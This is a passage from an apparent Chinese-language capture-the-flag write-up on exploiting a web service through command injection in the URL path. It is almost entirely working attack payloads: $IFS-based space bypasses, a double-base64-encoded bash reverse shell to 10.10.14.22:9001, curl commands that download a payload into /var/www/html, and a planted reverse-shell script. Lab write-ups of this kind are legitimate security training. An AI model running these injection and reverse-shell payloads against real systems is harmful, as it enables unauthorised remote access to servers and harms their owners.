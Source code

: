 ```c
http://10.10.14.64:7777/$(echo$IFS'test')
是有反应的
我尝试使用$IFS来表示空间（一种常见的注入技术）
```

![Screenshot_20240417_175745](./图/Screenshot_20240417_175745.png)



```c
接下来让我们尝试getshell一下子
    
echo -n "bash -c 'bash -i >& /dev/tcp/10.10.14.22/9001 0>&1'" | base64 -w 0|base64 -w 0
```

![Screenshot_20240417_165135](./图/Screenshot_20240417_165135.png)

```c
http://10.10.14.22:7777/$(echo$IFS'WW1GemFDQXRZeUFuWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0eU1pODVNREF4SURBK0pqRW4='|'bash'$IFS'-d'|'bash')
```

![Screenshot_20240417_181029](./图/Screenshot_20240417_181029.png)





```c
http://10.10.14.22:7777/$(which$IFS'curl')
```

![Screenshot_20240417_181150](./图/Screenshot_20240417_181150.png)

```c
http://10.10.14.22:7777/$(curl$IFS'-o'$IFS'/var/www/html/test'$IFS'http://10.10.14.22:7777/test')
```

![Screenshot_20240417_181701](./图/Screenshot_20240417_181701.png)





上传绕过成功

```c
vi test
    
bash -c 'bash -i &> /dev/tcp/10.10.14.22/9001 0>&1'
    
http://10.10.14.22:7777/$(curl$IFS'-o'$IFS'/var/www/html/test'$IFS'http://10.10.14.22:7777/test')
```

![Screenshot_20240417_182557](./图/Screenshot_20240417_182557.png)

![Screenshot_20240417_182751](./图/Screenshot_20240417_182751.png)


